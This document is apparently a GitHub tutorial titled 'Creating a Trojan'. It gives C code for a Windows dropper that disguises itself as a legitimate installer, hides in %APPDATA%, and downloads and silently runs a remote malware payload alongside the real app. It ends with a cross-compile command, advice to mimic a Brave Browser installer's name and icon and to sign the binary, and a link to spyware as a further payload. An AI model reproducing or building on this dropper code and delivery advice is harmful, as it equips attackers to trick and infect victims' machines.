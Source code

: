 # Creating a Trojan

## DISCLAIMER: This project was made for research purposes. Anything you do with this code is on you and is not my responsibility.

The main basis of this article will be to bundle a legitimate application with a malicious one. Here are the steps we will go through:
1. Code a dropper that will drop both the legitimate application & the malicious one. 
2. The dropper will then copy itself to another directory to hide it & then the dropped malicious application will overwrite & delete the dropper.

Let's start with defining the needed parameters for this function:

* legitimate_app  -> this is our legitimate application's file name to drop on the victim's machine
* legitimate_app_URL -> this is our legitimate application's URL to download it from
* malware_URL -> this is our malicious application's URL to download it from
* malware_app -> this is our malicious application's file name to drop on the victim's machine
* dropper_new_name -> this is the new name of our dropper. At first, our dropper will be masked to look like the legitimate application, but when it's executed, it will download the legitimate application & replace the dropper. This means we will have to move our dropper to a new location and give it a new name


Now, let's defining some variables we will be using when downloading & grabbing the legitimate application:

```
TCHAR current_dir[MAX_PATH]

TCHAR current_file[MAX_PATH]

TCHAR new_dir[MAX_PATH]
```
* current_dir will be used to grab the current directory & append the legitimate_app string to the end of it to build the location to drop the legitimate piece of software.
* current_file will store the current directory & name of the dropper. This will be the first parameter of the **MoveFileA** function
* new_dir will be used to build the location where the dropper will be moved to. This will be the 2nd parameter of the **MoveFileA** function

```
GetCurrentDirectory(MAX_PATH, current_dir);

strcat_s(current_dir, strlen(current_dir)+strlen(legitimate_app)+1, legitimate_app);

GetModuleFileNameA(NULL, current_file, MAX_PATH);

GetEnvironmentVariable("APPDATA", new_dir, MAX_PATH);

strcat_s(new_dir, strlen(new_dir)+strlen(dropper_new_name)+1,dropper_new_name);

int mresult = MoveFileA(current_file, new_dir);
```

1. This will store the current directory in current_dir 
2. This will concatenate the legitimate_app variable (the legitimate application's filename) to the current_dir variable
3. This will get the full path of the current running process & store it in current_file
4. This will grab the path of the environment variable "APPDATA" & store it in new_dir
5. the dropper's new file name is then concatenated to the new_dir variable
6. Then we move the dropper to the new directory which is %APPDATA% & rename it to whatever dropper_new_name is set to

```
HRESULT filedl = URLDownloadToFile(NULL, legitimate_app_URL, current_dir, 0, NULL);

if (filedl == S_OK) {

	HINSTANCE result = ShellExecuteA(NULL, "open", current_dir, NULL, NULL, 0);

}

else {
	
	printf("[!] Error with download\n");

}
```

Here we are simply downloading the legitimate application from the legitimate_app_URL variable & saving it to wherever current_dir points to. If the download is successful, we execute the legitimate software.

Now onto the next part of the code, downloading the malware & executing it.

The only variable we define here is:
`TCHAR maldir[MAX_PATH];`
which will be used to store the full directory of the malware being dropped.

```
GetEnvironmentVariable("APPDATA", maldir, MAX_PATH);

strcat_s(maldir, strlen(maldir)+strlen(malware_app)+1, malware_app);
```

1. Grabbing environment variable of APPDATA & storing it in maldir
2. Appending the desired file name of the malware that gets dropped to the maldir variable, creating a full path

```
HRESULT maldl = URLDownloadToFile(NULL, malware_URL, maldir, 0, NULL);

if (maldl == S_OK) {

	printf("[+] Successfully downloaded main malware\n");
    
    	HINSTANCE result2 = ShellExecuteA(NULL, "open", maldir, NULL, NULL, 0);
    
    	exit(0);
}

else {

	printf("[!] Error downloading main malware\n");

}
```

This is a repeat of earlier code, we're simply downloading the malware from the URL stored in malware_URL & saving it to the path stored in maldir. If the download succeeds, we execute it & then exit the dropper.

The "malware" we download here simply overwrites the dropper & deletes it, but we can drop more malicious malware such as installing [spyware](https://github.com/1d8/spybrowse) on a victim's machine.

## Cross-Compilation
`x86_64-w64-mingw32-gcc input.c -o output.exe -lurlmon`

Before delivering your dropper to your victim, be sure to rename it to the legitimate application's name. For example, if you were to have it masquerade as a Brave Browser installer, name the dropper file BraveBrowserSetUp.exe & change the icon of it to match the original. You can also sign the executable as well with a valid certificate to make the dropper less suspicious.
